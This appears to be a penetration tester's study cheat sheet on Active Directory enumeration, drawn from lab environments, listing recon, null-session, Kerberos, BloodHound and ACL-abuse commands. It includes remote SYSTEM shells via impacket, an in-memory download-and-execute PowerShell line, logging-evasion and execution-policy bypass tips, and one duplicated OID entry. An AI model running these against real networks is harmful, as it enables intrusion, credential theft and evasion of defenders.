

# Active Directory Enumeration

## Table of Contents

- [01 - Network Discovery](#01---network-discovery)
- [02 - Unauthenticated Enumeration](#02---unauthenticated-enumeration)
- [03 - Username Enumeration](#03---username-enumeration)
- [04 - Password Policy](#04---password-policy)
- [05 - Credentialed Enumeration](#05---credentialed-enumeration)
- [06 - Local Domain Joined Host Enumeration](#06---local-domain-joined-host-enumeration)
- [07 - BloodHound Collection](#07---bloodhound-collection)
- [08 - Manual ACL Enumeration](#08---manual-acl-enumeration)
- [09 - Security Controls](#09---security-controls)
- [10 - LOLBINS](#10---lolbins)

## 01 - Network Discovery

### Reconnaissance

### External (Passive recon)
- Look for :
	1. IP Space [IANA](https://www.iana.org/) & [ARIN](https://www.arin.net/) For companies in Americas, [RIPE](https://www.ripe.net/) FOR EUROPE, https://bgp.he.net/
	2. Domain  Information: https://www.domaintools.com/  & https://viewdns.info/
	3. Schema Format
	4. Data Disclosure : [Trufflehog](https://github.com/trufflesecurity/truffleHog) & [GreyHat Warfare](https://buckets.grayhatwarfare.com/)
	5. Data Breaches : [dehashed](http://dehashed.com/) || [dehashed.py](https://github.com/mrb3n813/Pentest-stuff/blob/master/dehashed.py) || [dehashed again](https://github.com/sm00v/Dehashed)

### Blackbox internal recon

### Passive :
-  Identify the hosts and protocols and analyze traffic inside the network using tcpdump / wireshark
	1. `sudo tcpdump -i Interface-name -w capture_output.pcap`
	2. `sudo -E wireshark`
	3. built-in windows tool -> `pktmon.exe`
	4. using responder `sudo responder -I Interface-name -A`

### Active
- we can actively do ping sweeps to the network
	1. `fping -asgq 199.66.11.0/24  # Send echo requests to ranges`
	2. `nmap -PEPM -sP -n 199.66.11.0/24`
- Ports scan to live hosts
	1. `sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum`

### Network scanning

### Host scanning
in the case when we have a subnet to work with, we can run nmap scan with that subnet to seethe live ip's, and once we got some ips, we can do more enuerations to see what services are running on each host and which one is the Domain controller.
```bash
nmap -sn 192.168.12.0/24 --exclude <our-ip>
```
```shell
rustscan -u 5000 -a 192.162.12.145 -- -Pn -sC
```
```bash
nmap -p- -T5 -vv -oA DC-Nmap -Pn -sC -sV 192.168.12.145 | tee -a DC-Nmap.txt
```
```bash
cat DC-Nmap.txt | grep Discovered | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -u | tr '\n' ',' | sed 's/,$//'  > open_ports
```
```bash
nmap -p $(cat open_ports) -sV 10.129.234.71
```

### Enumerating the Local & remote DNS

### Local DNS resolution
```powershell
type C:\Windows\System32\drivers\etc\hosts
```

### DNS Cache
```powershell
Get-DnsClientCache | Select-Object EntryName, Data | Format-Table -AutoSize
```
```powershell
(Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.DNSServerSearchOrder -ne $null }).DNSServerSearchOrder
```

### Find the DC
```powershell
Resolve-DnsName -Name _ldap._tcp.dc._msdcs.x.stf -Type SRV
```

- View ARP cache
```powershell
arp -a
```
- Check local Routing
```powershell
route print
```
- Identify Gateways
```powershell
ipconfig /all
```
- Active Discovery `Subnet Sweeping`
```powershell
1..254 | ForEach-Object {Test-Connection -ComputerName "10.154.32.$_" -Count 1 -Quiet -Delay 1} | Where-Object {$_}
```

### Firewall Enumerations
1. The Modern Way (PowerShell)
- List all Enabled Rules
rules that are currently active:

```PowerShell
Get-NetFirewallRule | Where-Object { $_.Enabled -eq 'True' } | Select-Object Name, DisplayName, Action, Direction
```

- Find "Allow" Rules for a Specific Port
```PowerShell
Get-NetFirewallServiceFilter | Where-Object { $_.LocalPort -eq '445' } | Get-NetFirewallRule
```
- View Rules for a Specific Direction (Inbound/Outbound)
```PowerShell
Get-NetFirewallRule -Direction Inbound -Enabled True | Select-Object DisplayName, Profile
```
2. The Legacy Way (Netsh)
- List all Active Rules
```DOS
netsh advfirewall firewall show rule name=all
```
- Check the Status of Firewall Profiles
Before looking at rules, check if the firewall is even turned on for Domain, Private, or Public profiles:
```DOS
netsh advfirewall show allprofiles
```
- Get Detailed Rule Info for a Specific Port
```DOS
netsh advfirewall firewall show rule name=all | findstr "LocalPort:445"
```
3. The Stealthy Way (WMI)
- List Rules via WMI
```PowerShell
Get-WmiObject -Class HNet_FirewallRule -Namespace ROOT\Microsoft\HomeNet
```

## 02 - Unauthenticated Enumeration

### No Credentials Given
_we can use nxc smb to get the domain name and NETBIOS name_
```shell
nxc smb 192.168.12.145 #Single target
nxc smb 192.168.12.9/24
nxc smb ips.txt
ldapsearch -H ldap://target.ip -x -b "DC=simply,DC=cyber" '(objectclass=person)'
smbclient -L \\\\target.ip\\
smbclient \\\\target.ip\\sharename

#enumrating smb and ldap for users
nxc smb 10.10.10.128 -u '' -p '' --shares
nxc smb 10.10.10.128 -u anonymous -p '' --shares
nxc ldap 10.10.10.128 -u '' -p '' --users
nxc ldap 10.10.10.128 -u anonymous -p '' --users
nxc smb 10.10.10.128 -u 'anonymous' -p '' --rid-brute | grep "SidTypeUser"
```

### All in on version to get and store the users in users.txt
- Netexec - SMB
  ```shell
  nxc smb 10.10.10.128 -u 'anonymous' -p '' --rid-brute | grep "SidTypeUser" | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
  ```
- using _ldapsearch_
  ```shell
  ldapsearch -H ldap://10.10.10.128 -x -b "DC=simply,DC=cyber" '(objectclass=person)' | grep sAMAccountName | cut -d ':' -f 2 | tr -d ' '
  ```
- Using RCP Null session
  ```bash
  rpcclient -U "" -N dc01.shadow.gate -c "lsaquery"
  rpcclient -U "" -N dc01.shadow.gate -c "querydominfo"
  rpcclient -U "" -N dc01.shadow.gate -c "enumdomusers"
  ```

### SMB NULL session
1. `enum4linux`
```bash
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
2. `rpcclient`
```bash
rpcclient -U "" -N 172.16.5.5
```
3. `netexec`
```bash
nxc smb 172.16.5.5 --users
```

### LDAP Anonymous Bind
1. `ldapsearch`
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```
2. `windapsearch.py`
```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

## 03 - Username Enumeration

### Enumerating users
- Kerbrute
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

### Enumerating Valid usernames via kerbrute
- Using `kerbrute` (Enumerating Valid usernames via Kerberos)
  ```bash
  kerbrute userenum --dc dc.hercules.htb -d hercules.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --output users.txt -t 25
  ```

### Using `kerbrute`
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

## 04 - Password Policy

### Enumerating Password Policy inside the domain
- using `nxc smb`
```shell
nxc smb <domain-name> -u myuser -p hispasswd --pass-pol
```

### Enumerating password policy

### Linux
1. Identify the password policy to prevent triggers with credentials
```
nxc smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
2. identifying password policy without creds `SMB NULL session`
```bash
rpcclient -U "" -N 172.16.5.5
rpcclient $> querydominfo # to confirm nulll session
rpcclient $> getdompwinfo
```
```bash
enum4linux -P 172.16.5.5   # or we can use the newer one enum4linux-ng
enum4linux-ng -P 172.16.5.5 -oA ilfreight
```
3. Using `ldapsearch`
```bash
ldapsearch -H 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
---
### Windows
1. using built-in `net.exe`
```powerhsell
net accounts
```
2. using poweview.ps1
```
import-module .\PowerView.ps1
Get-DomainPolicy
```
---

## 05 - Credentialed Enumeration

### Enumerating Users with found credentials
- using ldapdomaindump
  ```shell
  mkdir ldapdump && cd ldapdump
  # will dump many information about the domain in amny forms
  # NOTE: if the domain_users.html file is 905 size this means it failed.
  ldapdomaindump 'ldap://target.ip:389' -u '<domain-name>\<username>' -p  'hisSup3rscurPA$$'
  ```

### Credentialed enumerations
- Starting with user credentials / NTLM hash / SYSTEM access to a domain joined Host
```txt
forend:Klmcargo2
```

### Linux

#### **Netexec**
- Listing shares
```bash
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
- Spidering the readable shares using `spider_plus` `nxc` module
```bash
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

#### **SMBMap**
- checking access
```bash
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
- Recursive Lisitng
```bash
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

#### **Rpcclient**
- establish Connection (Null session)
```bash
rpcclient -U "" -N 172.16.5.5
enumdomusers
queryuser 0x457 # -> rid
```

#### **Impacket-psexec**
- The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.
```bash
impacket-psexec inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

#### **Impacket-wmiexec**
- semi-interactive shell through Windows management Instrumentation, it is more stealthy
```bash
Impacket-wmiexec inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

#### **Windapsearch - Domain Admins**
```bash
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

#### **Windapsearch - Privileged Users**
```bash
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

### User group membership

### Linux
- **ldapsearch**
```bash
ldapsearch -H ldap://172.16.5.5 -D "wley@INLANEFREIGHT.LOCAL" -w "transporter@4" -b "DC=INLANEFREIGHT,DC=LOCAL" "(sAMAccountName=<target-user>)" memberOf
```
- **netexec**
```bash
# Syntax
nxc ldap <DC_IP> -u 'username' -p 'pasworddd' --query "(sAMAccountName=<target-user>)" memberOf
```

```bash
rpcclient -U 'INLANEFREIGHT.LOCAL/wley%transporter@4' 172.16.5.5
```

## 06 - Local Domain Joined Host Enumeration

### Windows

#### **ActiveDirectory PowerShell Module**
- Listing available modules
```powershell
Get-Module
```
- Importing the module
```powershell
Import-Module ActiveDirectory
```
- Get domain info
```powershell
Get-ADDomain
```
- Get domain users
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
- Enumerating AD Trust
```powershell
Get-ADTrust -Filter *
```
- Existing domain groups
```powershell
Get-ADGroup -Filter * | select name
```
- Get certain domain information
```powershell
Get-ADGroup -Identity "Backup Operators"
```
- Group members
```powershell
Get-ADGroupMember -Identity "Backup Operators"
```

#### **PowerView**
| **Command**                         | **Description**                                                                            |
| ----------------------------------- | ------------------------------------------------------------------------------------------ |
| `Export-PowerViewCSV`               | Append results to a CSV file                                                               |
| `ConvertTo-SID`                     | Convert a User or group name to its SID value                                              |
| `Get-DomainSPNTicket`               | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account          |
| **Domain/LDAP Functions:**          |                                                                                            |
| `Get-Domain`                        | Will return the AD object for the current (or specified) domain                            |
| `Get-DomainController`              | Return a list of the Domain Controllers for the specified domain                           |
| `Get-DomainUser`                    | Will return all users or specific user objects in AD                                       |
| `Get-DomainComputer`                | Will return all computers or specific computer objects in AD                               |
| `Get-DomainGroup`                   | Will return all groups or specific group objects in AD                                     |
| `Get-DomainOU`                      | Search for all or specific OU objects in AD                                                |
| `Find-InterestingDomainAcl`         | Finds object ACLs in the domain with modification rights set to non-built in objects       |
| `Get-DomainGroupMember`             | Will return the members of a specific domain group                                         |
| `Get-DomainFileServer`              | Returns a list of servers likely functioning as file servers                               |
| `Get-DomainDFSShare`                | Returns a list of all distributed file systems for the current (or specified) domain       |
| **GPO Functions:**                  |                                                                                            |
| `Get-DomainGPO`                     | Will return all GPOs or specific GPO objects in AD                                         |
| `Get-DomainPolicy`                  | Returns the default domain policy or the domain controller policy for the current domain   |
| **Computer Enumeration Functions:** |                                                                                            |
| `Get-NetLocalGroup`                 | Enumerates local groups on the local or a remote machine                                   |
| `Get-NetLocalGroupMember`           | Enumerates members of a specific local group                                               |
| `Get-NetShare`                      | Returns open shares on the local (or a remote) machine                                     |
| `Get-NetSession`                    | Will return session information for the local (or a remote) machine                        |
| `Test-AdminAccess`                  | Tests if the current user has administrative access to the local (or a remote) machine     |
| **Threaded 'Meta'-Functions:**      |                                                                                            |
| `Find-DomainUserLocation`           | Finds machines where specific users are logged in                                          |
| `Find-DomainShare`                  | Finds reachable shares on domain machines                                                  |
| `Find-InterestingDomainShareFile`   | Searches for files matching specific criteria on readable shares in the domain             |
| `Find-LocalAdminAccess`             | Find machines on the local domain where the current user has local administrator access    |
| **Domain Trust Functions:**         |                                                                                            |
| `Get-DomainTrust`                   | Returns domain trusts for the current domain or a specified domain                         |
| `Get-ForestTrust`                   | Returns all forest trusts for the current forest or a specified forest                     |
| `Get-DomainForeignUser`             | Enumerates users who are in groups outside of the user's domain                            |
| `Get-DomainForeignGroupMember`      | Enumerates groups with users outside of the group's domain and returns each foreign member |
| `Get-DomainTrustMapping`            | Will enumerate all trusts for the current domain and any others seen.                      |
- Testing For **admin** access
```powershell
Test-AdminAccess -ComputerName ACADEMY-EA-MS01
```
- Finding users with SPN (for **kerberoasting**)
```powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```

#### **SharpView** (.NET version of powerview which can be used when the target has some defense against powershell)

#### **Snaffler** (crawling shares for harvesting creds)
```powershell
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

## 07 - BloodHound Collection

-  collecting Bloodhound data
then we can use this to injest in bloodhound and find the mapping and relations and etc..
- `bloodhound-python`
  ```shell
  bloodhound-python -d <domain-name> -u <username> -p <password> -ns <dc-ip> -c All --zip
  ```
- `rusthound-ce`
  ```bash
  rusthound-ce -d amzcorp.local  -u "jameshauwnnel@amzcorp.local" -p '654221p!' --zip
  ```

### Using BloodHound Community edition
using the `bloodhound-cli` binary, we need to follow these steps
1. if now installed we build up the container
```shell
./bloodhound-cli install #[uninstall]
```
2. spawn it
```shell
./bloodhound-cli up
# to stop we use [down]
```
3. get the default password if missed
```shell
./bloodhound-cli config get default_password
```
4. reset default password
```shell
./bloodhound-cli resetpwd
```
5. for more debugging during the runtime
```shell
docker logs bloodhound-bloodhound-1 # <-- container name
```

#### **Bloodhound-python**
```bash
bloodhound-python -u dead.user -p changeMeFr -ns <domain-ip> -d doman.name -c all --zip
```

#### **SharpHound.exe** (bloodhound collection tool)
```powershell
.\SharpHound.exe -c All --zipfilename ILFREIGHT
```

## 08 - Manual ACL Enumeration

### DACL Abuses
- ACL contains ACEs
- Each ACE is made up of four parts
	1. **SID** of the user/group that has access to the object
	2. **type** , allowed - access denied - system audit
	3. **flags** that defines the if child objects inherits the ace or not
	4. [access mask](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) 32-bit value that defines the rights granted to an object

### PowerView ACL abuses
- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `AddSelf` abused with `Add-DomainGroupMember`


### Enumerating ACLs using Powerview
- Wildcard enumerations
```powershell
Find-InterestingDomainAcl
```
- Targeted (with a user we own)
```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

### Using Get-ADUser and Get-Acl
1. Get all domain users
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
2. Loop through them one by one and map the available ACLs give to our user
```powershell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

### Looting with SharpHound.exe
```powershell
.\SharpHound.exe --domain minyawy.local -c all --zipfilename houndata2.zip
```

## 09 - Security Controls

### Rabbit Holes

### Enumerating security Controls

### Checking the status of Windows Defender
```powershell
Get-MpComputerStatus
```

### Checking AppLocker
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### PowerShell Constrained Language mode
this blocks COM objects, allows .NET types and XAML-Based workflows and PowerShell classess
```powershell
$ExecutionContext.SessionState.LanguageMode
```

### enumerating LAPS - >Local Administrator Password Solution
we can use [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) to enumerate LAPS
```
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
```
- To search for computers having LAPS enabled (we might get cleartext passwords)
```
Get-LAPSComputers
```

## 10 - LOLBINS

- print hostname
```powershell
hostname
```
- OS version
```powershell
[System.Environment]::OSVersion.Version
```
- Patches and hotfixes
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
- network configs
```powershell
ipconfig /all
```
- list of environment variables
```cmd
set
```
- domain name and DC
```cmd
echo %USERDOMAIN%
echo %logonserver%
```
- systeminfo
```powershell
systeminfo
```

### Powershell specific
- Listing available modules
```powershell
Get-Module
```
- List execution policy per scope
```powershell
Get-ExecutionPolicy -List
```
- Temporary bypass will last until we finish our process
```powershell
Set-ExecutionPolicy Bypass -Scope Process
```
- Environment vars
```powershell
Get-ChildItem Env: | ft Key,Value
```
- powershell history
```powershell
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
- File transfer into memory
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
- Downgrade to powershell v2 to avoid `Script Block Logging`
```powershell
powershell.exe -version 2
```

### Firewall checks
```cmd
netsh advfirewall show allprofiles
```

### Windows Defender
```cmd
sc query windefend
```
```powershell
Get-MpComputerStatus
```

### Network information and Internal Host discovery
- Listing arp table
```cmd
arp -a
```
```cmd
route print
```
```
netsh advfirewall show allprofiles
```

#### WMI checks
wmi [Useful Wmic queries for host and domain enumeration](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4)

| **Command**                                                                          | **Description**                                                                                        |
| ------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------ |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                              | Prints the patch level and description of the Hotfixes applied                                         |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List` | Displays basic host information to include any attributes within the list                              |
| `wmic process list /format:list`                                                     | A listing of all processes on host                                                                     |
| `wmic ntdomain list /format:list`                                                    | Displays information about the Domain and Domain Controllers                                           |
| `wmic useraccount list /format:list`                                                 | Displays information about all local accounts and any domain accounts that have logged into the device |
| `wmic group list /format:list`                                                       | Information about all local groups                                                                     |
| `wmic sysaccount list /format:list`                                                  | Dumps information about any system accounts that are being used as service accounts.                   |

### **Using `net` Commands or `net1`**

| **Command**                                     | **Description**                                                                                                              |
| ----------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `net accounts`                                  | Information about password requirements                                                                                      |
| `net accounts /domain`                          | Password and lockout policy                                                                                                  |
| `net group /domain`                             | Information about domain groups                                                                                              |
| `net group "Domain Admins" /domain`             | List users with domain admin privileges                                                                                      |
| `net group "domain computers" /domain`          | List of PCs connected to the domain                                                                                          |
| `net group "Domain Controllers" /domain`        | List PC accounts of domains controllers                                                                                      |
| `net group <domain_group_name> /domain`         | User that belongs to the group                                                                                               |
| `net groups /domain`                            | List of domain groups                                                                                                        |
| `net localgroup`                                | All available groups                                                                                                         |
| `net localgroup administrators /domain`         | List users that belong to the administrators group inside the domain (the group `Domain Admins` is included here by default) |
| `net localgroup Administrators`                 | Information about a group (admins)                                                                                           |
| `net localgroup administrators [username] /add` | Add user to administrators                                                                                                   |
| `net share`                                     | Check current shares                                                                                                         |
| `net user <ACCOUNT_NAME> /domain`               | Get information about a user within the domain                                                                               |
| `net user /domain`                              | List all users of the domain                                                                                                 |
| `net user %username%`                           | Information about the current user                                                                                           |
| `net use x: \computer\share`                    | Mount the share locally                                                                                                      |
| `net view`                                      | Get a list of computers                                                                                                      |
| `net view /all /domain[:domainname]`            | Shares on the domains                                                                                                        |
| `net view \computer /ALL`                       | List shares of a computer                                                                                                    |
| `net view /domain`                              | List of PCs of the domain                                                                                                    |

### **Dsquery**
- `dsquery` will exist on any host with the `Active Directory Domain Services Role` installed
```powershell
dsquery user
dsquery user -disabled | dsget user -desc
```
```powershell
dsquery computer
```
We can use a [dsquery wildcard search](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754232\(v=ws.11\)) to view all objects in an OU, for example.

#### Wildcard Search
```
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```

#### Users With Specific Attributes Set (PASSWD_NOTREQD)

```powershell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```

#### Searching for Domain Controllers
```powershell
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
- 

#### LDAP querying **UserAccountControl** UAC

##### OID matching rules
1. `1.2.840.113556.1.4.803`:
	1. Only results that match all the flags in our mask
2. `1.2.840.113556.1.4.803`:
	1. Show results that match at least one of the mask bits
3. `1.2.840.113556.1.4.1941`:
	1. Recursive search in the ownerships and membership entries in the Objects Distinguished name
- We can use logical operators `| & !`
```powershell
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -limit 5 -attr sAMAccountName distinguishedName
```
